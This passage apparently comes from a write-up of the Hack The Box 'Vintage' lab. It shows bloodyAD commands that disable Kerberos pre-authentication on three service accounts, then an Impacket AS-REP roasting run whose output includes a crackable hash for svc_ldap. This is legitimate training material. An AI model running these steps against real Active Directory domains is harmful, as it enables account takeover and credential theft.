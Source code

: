 Let's see what control this group has over other accounts.

![](/assets/images/writeups/vintage/BH-Servicemanagers.png)

My initial thought was to create shadow credentials for the accounts that we have control over, but the domain does not support PKINIT. Since we have full control over all these service accounts, another thing we can do is a targeted ASREPRoasting attack in order to crack the hashes. This can be done in `BloodyAD` by setting the `DONT_REQ_PREAUTH` flag.

```console
$ bloodyAD -k ccache=GMSA01$.ccache --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 add uac SVC_ARK -f DONT_REQ_PREAUTH
$ bloodyAD -k ccache=GMSA01$.ccache --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 add uac SVC_LDAP -f DONT_REQ_PREAUTH
$ bloodyAD -k ccache=GMSA01$.ccache --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 add uac SVC_SQL -f DONT_REQ_PREAUTH
```

When we now perform an ASREPRoast, we should get the hashes of all three accounts.

```console
$ GetNPUsers.py vintage.htb/p.rosa -usersfile users.txt -request
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

Password:
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User DC01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User gMSA01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User FS01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User M.Rossi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User R.Verdi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User G.Viola doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User C.Neri doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User P.Rosa doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
$krb5asrep$23$svc_ldap@VINTAGE.HTB:34d78bfb83fd05ac07402163aae9fe3d$775d80923f67ec2ef0741fd18b3f0758764ebdad0711f800179c844ce64d117149874db4664b3a5fdb240ccd95192eea142b2c4b280a27d6ad7d80d56b4fda66a778bba9aef8a70415405500961cbef51af9bec5ffcecc9477a963dd2b2300f378beccf6dafd94a871ad44ad0eb076fa52148946da11d509196644732a678a17e8a32b4da648db22dd19e28a6ea4febd1aaf9a5830b5bb421b24be806a2d44b76a9bf7161239f080a5532cecab6f209019ea1e17fd425cd18b4cd4a7cf6c0d9a8a0d1b5423375f50a158fbd686e3e39f319528d5e939b96979b656b64820ac6354efd8766f944f09dd47
```